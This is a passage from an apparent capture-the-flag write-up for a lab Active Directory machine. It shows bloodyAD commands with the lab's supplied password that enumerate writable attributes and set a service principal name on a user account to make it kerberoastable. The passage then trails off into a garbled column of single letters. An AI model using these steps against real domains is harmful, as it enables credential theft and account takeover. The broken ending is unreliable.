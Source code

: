 # Foothold
As we're provided with `assumed breach credentials` let's do some enumeration

**Command**
```bash
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb -u henry -p 'H3nry_987TGV!' get writable --detail
```

**Output**
```html
<SNIP>
distinguishedName: CN=Alfred,CN=Users,DC=tombwatcher,DC=htb
servicePrincipalName: WRITE 
```

We can see that we can write an `SPN` for `Alfred` which could potentially allow us to kerberoast `Alfred` if they have a weak password.

So let's give `Alfred` an `SPN`.

**Command**
```bash
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb -u henry -p 'H3nry_987TGV!' set object 'Alfred' servicePrincipalName -v 'w1ld/htb'     
A
B
C
D
E
F
G
H
I
J
K
L
M
N
O
P
Q
R
S
T
U
V
W
X
Y
Z
```
